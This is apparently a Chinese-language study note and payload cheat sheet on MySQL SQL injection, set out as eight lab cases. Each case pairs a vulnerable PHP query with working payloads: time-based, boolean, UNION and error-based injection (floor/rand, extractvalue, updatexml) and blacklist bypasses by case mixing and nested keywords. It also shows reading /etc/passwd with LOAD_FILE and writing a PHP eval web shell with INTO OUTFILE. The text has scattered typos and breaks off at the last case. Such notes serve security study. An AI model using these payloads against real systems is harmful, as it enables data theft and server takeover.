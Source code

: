 #SQL—Injection  
应用程序在向后台数据库传递SQLc查询时，如果为攻击者提供了影响该查询的能力，就会引起sql注入。简而言之就是程序代码在编写的时候没有对用户可控的变量进行合适的判断d和处理导致不可信数据被作为命令或是数据查询的一部分发送到用户客户端，导致漏洞的发生。
##Mysql注入  
###Mysql数据库版本  
 - show version(); < 5.0 没有information_schema数据库;
 - show version(); > 5.0 有内置information_schema数据库，可以快速查找表明;
 - show version(); > 5.5 有内置information_schema数据库和performance_schema数据库(用于收集数据库服务器性能参数)；  

###注释符  
 - `#` `/*` `-- -` `;%00`
 - 值得注意：在Accsee数据库中没有注释符的存在，但是在一定条件下可以使用%00来代替注释符。

###注入方式  
 - inband,利用攻击者和存在漏洞的wen程序之间现有的f通信方式来进行sql注入并提取数据，Union注入、报错注入(error-base)；
 - inference,通过传入不同的参数值来观察web程序表现的差异性来进行sql注入并提取数据，布尔值注入(bool)、时间注入(time-base)；
 - Out-of-inband，当现有的通信渠道不能提取数据d时，我们可以利用其他渠道来尝试提取数据，如e-mail、HTTP/DNS、文件系统；

###Mysql 读写文件  
 - LOAD_FILE() 
    - SELECT LOAD_FILE('/etc/passwd');
    - Mysqlyd用户必须有文件读取的权利；文件大小要小于max_allowed_packet;
 - INTO OUTFILE()
   - SELECT '<?php eval($_REQUEST[\'s\']);>' INTO FILE '/var/www/1.php';
   - INTO OUTFILE不能覆盖已经存在的文件；

###常用函数  
 - `@@VERSION()` `VERSION()` `current_user` `database()` `@@HOSTNAME`
 
##SQL  
 - [SQL-1](#sql-1)
 - [SQL-2](#sql-2)
 - [SQl-3](#sql-3)
 - [SQl-4](#sql-4)
 - [SQL-5](#sql-5)
 - [SQl-6](#sql-6)
 - [SQl-7](#sql-7)
 - [SQl-8](#sql-8)


##<span id="SQL-1">SQL-1</span>  
###mysql_query  
 - `SELECT * FROM users WHERE id=1 LIMIT 0,1;`
###Payload  
 - time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 AND 6036=6036`
 - UNION query
    - `id=-3563 UNION ALL SELECT NULL,NULL,CONCAT()--`

##<span id="SQL-2">SQL-2</span>  
对比于SQL-1的直接传值$id，SQL-2中在SQL-1注入Payload的基础上需要对y单引号`'`进行闭合；  
###mysql_query  
 - `SELECT * FROM users WHERE id='$id' LIMIT 0,1;`
###PayLoad  
 - time-based blind 
    - `id=1' AND SLEEP(5) AND 'sql'='sql`
    - `id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa) and 'Kevinsa'='Kevinsa`
 - boolean-based blind 
    - `id=1' AND 6036=6036 AND 'Drgh'='Drgh`
 - UNION query
    - `id=-3563' UNION ALL SELECT NULL,NULL,CONCAT()-- Kevinsa'`

##<span id="SQL-3">SQL-3</span>  
###mysql_query  
 - `SELECT * FROM users WHERE id=($id) LIMIT 0,1;`
###Payload  
 - time-based blind
    - `?id=1) AND SLEEP(5) AND (1=1# `
 - boolen-based blind
    - `?id=1) AND 1378=1379 AND ('ARzY'='ARzY'`

##<span id="SQL-4">SQL-4</span>  
可以看到SQL-4与SQL-1是相类似的，在不需要闭合任何符合的情况下就可以进行SQL注入，但是在SQL-4中值得一提的是，SQL-4中开启了`mysql_error();`，r所以我们可以利用报错注入的方式来提取数据。
###mysql_query  
 - ```
   $sql_query="SELECT * FROM users WHERE id=$id LIMIT 0,1";
   mysql_query($sql_query);
   echo mysql_error;
   ```

###Payload  
 - error-based blind
    - `?id=1 AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(user(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)`
        - 主键重复性报错，floor(rand(0)*2)、count(*)、group by，报错方式的原理是：使用rand()查询时，由于group by的存在floor(rand(0)*2)会被执行一次，当x虚拟表不存在时，插入虚拟表会被再执行一次，而报错正是因为floor(rand(0)*2)的确定性011；文章：Wooyun知识库-Mysql报错注入原理分析(count()、rand()、group by)
    - `id=1  and (extractvalue(1,concat(0x7e,(select user()),0x7e)))`
        - extractvalue是mysql5.1提供的内置XML文件解析和修改函数，函数语法为extratvalue(XML_document,XPath_string),其中的XML_document是string格式，而当我们传入一个数值时，extractvalue()函数会产生报错；
    - `id=1  and (updatexml(1,concat(0x7e,(select user()),0x7e),1))`
        - extractvalue、updatexml都属于xpath语法错误进行报错注入，version>5.1.5,提供的两个XML查询和修改哈苏宁沪，extractvalue负责在xml文档中按照xpath语法查询节点内容，而updatexml负责修改查询到的内容。extractvalue、updatexml函数的第二个参数都是要去符合xpath语法的字符串，如果我们传入数字就能产生报错。updatexml同样是mysql5.1中提供的内置xml文件解析和修改函数，函数语法为updatexml(XML_document,XPath_string,new_value),其中的XML_document是string格式，而当我们传入一个数值时，updatexml()函数会产生报错； 
###About  
 - version > 5.0.12,我们可以利用name_const()函数的重复产生报错来提取数据。select * from(select name_const(version()),1),name_const(version(),1);
 - 利用整形溢出进行报错注入提取数据，5.5.5 > version > 5.5可以返回信息，同时报错信息也是有长度限制的，#define ERRMSGSIZE (512) 

##<span id="SQL-5">SQL-5</span>  
虽然SQL-5的csql查询方式和SQL-1一样，但是php代码中没有对结果的输出点，而且注入布尔值判断也不影响页面正常输出任何内容，所以我们只能利用time-based blind。
###mysql_query  
 - `SELECT * FROM users WHERE id='$id' LIMIT 0,1; 
    /* echo mysql_query(); */`
###Payload  
 - time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`  


##<span id="SQL-6">SQL-6</span>  
SQL-6对比与SQL-1多了一层粗糙的过滤，`function sqlentities()`以黑名单的方式对id参数值进行过滤。
###mysql_query  
 - ```
   function sqlentities($var) {
    $var = str_replace("select"," ",$var);
	$var = str_replace("sleep"," ",$var);
	$var = str_replace("and"," ",$var);
	$var = str_replace("from"," ",$var);
	$var = str_replace("where"," ",$var);
	$var = str_replace("union"," ",$var);
	
	return $var;
	}

   ```
###Payload  
最简单的方式，我们一大小写混淆来绕过过滤
- time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 AND 6036=6036`
 - UNION query
    - `id=-3563 UNION ALL SELECT NULL,NULL,CONCAT()--`

##<span id="SQL-7">SQL-7</span>  
相对于SQL-6，SQL-7匹配为大小写匹配，我们不能用大小写混淆来绕过过滤。
###mysql_quey
 -  ```
    function sqlentities($var) {
    $var = preg_replace('/(select|where|sleep|and|from|union)/i',"",$var);
	return $var;
	}
	}
  ```

###Payload  
- time-based blind 
    - `id=1 ANandD SLandEEP(5) `
    - `id=1 AND (SELEandCT * FandROM (SandELECT(SLandEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 ANandD 6036=6036`
 - UNION query
    - `id=-3563 UNandION ALL SELECandT NULL,NULL,CONCAT()--`

##<span id="SQL-8">SQL-8</span>  
###mysql_query  
 - ```
   $name=$_POST['username'];  
   $password=$_POST['password']; 
   ```
